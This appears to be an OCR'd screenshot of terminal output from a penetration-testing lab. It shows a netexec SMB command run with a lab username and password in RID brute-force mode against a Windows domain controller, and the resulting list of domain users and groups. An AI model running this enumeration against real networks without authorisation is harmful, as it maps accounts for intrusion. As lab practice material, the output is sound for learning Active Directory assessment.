 SMB         192.168.56.105  445    ELEVATOR         522: BLOODHOUND\Controladores de dominio clonables (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         525: BLOODHOUND\Protected Users (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         526: BLOODHOUND\Administradores clave (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         527: BLOODHOUND\Administradores clave de la organización (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         553: BLOODHOUND\Servidores RAS e IAS (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         571: BLOODHOUND\Grupo de replicación de contraseña RODC permitida (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         572: BLOODHOUND\Grupo de replicación de contraseña RODC denegada (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1000: BLOODHOUND\ELEVATOR$ (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1101: BLOODHOUND\DnsAdmins (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1102: BLOODHOUND\DnsUpdateProxy (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         1103: BLOODHOUND\Usuarios de DHCP (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1104: BLOODHOUND\Administradores de DHCP (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         1108: BLOODHOUND\michael.jones (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1109: BLOODHOUND\john.smith (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1110: BLOODHOUND\finanzas (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         1111: BLOODHOUND\mary.johnson (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1112: BLOODHOUND\robert.williams (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1113: BLOODHOUND\marketing (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         1114: BLOODHOUND\patricia.brown (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         1115: BLOODHOUND\operaciones (SidTypeGroup)
                                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Documents/elevator/elevator-docker]
└─$ netexec smb 192.168.56.105  -u 'john.smith' -p 'Rk436\#Z4&' --rid-brute
SMB         192.168.56.105  445    ELEVATOR         [*] Windows Server 2022 Build 20348 x64 (name:ELEVATOR) (domain:bloodhound.thl) (signing:True) (SMBv1:False) 
SMB         192.168.56.105  445    ELEVATOR         [+] bloodhound.thl\john.smith:Rk436\#Z4& 
SMB         192.168.56.105  445    ELEVATOR         498: BLOODHOUND\Enterprise Domain Controllers de sólo lectura (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         500: BLOODHOUND\Administrador (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         501: BLOODHOUND\Invitado (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         502: BLOODHOUND\krbtgt (SidTypeUser)
SMB         192.168.56.105  445    ELEVATOR         512: BLOODHOUND\Admins. del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         513: BLOODHOUND\Usuarios del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         514: BLOODHOUND\Invitados del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         515: BLOODHOUND\Equipos del dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         516: BLOODHOUND\Controladores de dominio (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         517: BLOODHOUND\Publicadores de certificados (SidTypeAlias)
SMB         192.168.56.105  445    ELEVATOR         518: BLOODHOUND\Administradores de esquema (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         519: BLOODHOUND\Administradores de empresas (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         520: BLOODHOUND\Propietarios del creador de directivas de grupo (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         521: BLOODHOUND\Controladores de dominio de sólo lectura (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         522: BLOODHOUND\Controladores de dominio clonables (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         525: BLOODHOUND\Protected Users (SidTypeGroup)
SMB         192.168.56.105  445    ELEVATOR         526: BLOODHOUND\Administradores clave (SidTypeGroup)
